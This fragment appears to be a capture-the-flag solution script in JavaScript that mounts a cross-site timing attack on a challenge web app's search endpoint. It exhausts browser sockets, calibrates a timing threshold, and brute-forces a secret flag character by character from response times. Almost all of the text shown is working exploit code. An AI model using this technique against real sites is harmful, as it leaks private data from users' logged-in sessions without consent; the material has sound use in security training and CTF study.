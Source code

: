 ```html
  }

  // const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^`|~{'.split('');
  const alphabet = "abcdefghijklmnopqrstuvwxyz}_".split("")
  // const alphabet = 'abcdef}'.split('');

  const oracle = async (search) => {
    let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}`
    let t = await timeit(url, WINBG)

    LOG = `${search}:${t}`
    console.log(`${search}:${t}`)

    return t > TIMELIMIT
  }

  const brute = async (flag) => {
    for (const char of alphabet) {
      if (await oracle(flag + char)) {
        return char
      }
    }
    return false
  }

  const calibrate = async () => {
    return new Promise(async (r) => {
      // slow
      let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{`
      let t1 = await timeit(url1, WINBG)
      console.log(`slow:${t1}`)
      // fast
      let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX`
      let t2 = await timeit(url2, WINBG)
      console.log(`fast:${t2}`)
      return r((t1 + t2) / 2)
    })
  }

  const exploit = async (flag = "") => {
    console.log("Starting")
    // dont go to fast plz :)
    console.log(`waiting 3s`)
    await sleep(3000)
    // exaust sockets
    await exhaust_sockets()
    await sleep(2000)
    LOG = `Calibrating`
    TIMELIMIT = await calibrate()
    LOG = `TIMELIMIT:${TIMELIMIT}`
    console.log(`timelimit:${TIMELIMIT}`)
    await sleep(2000)
    let last
    while (true) {
      last = await brute(flag)
      if (last === false) {
        return flag
      } else {
        flag += last
        output.innerText = flag
        if (last === "}") {
          return flag
```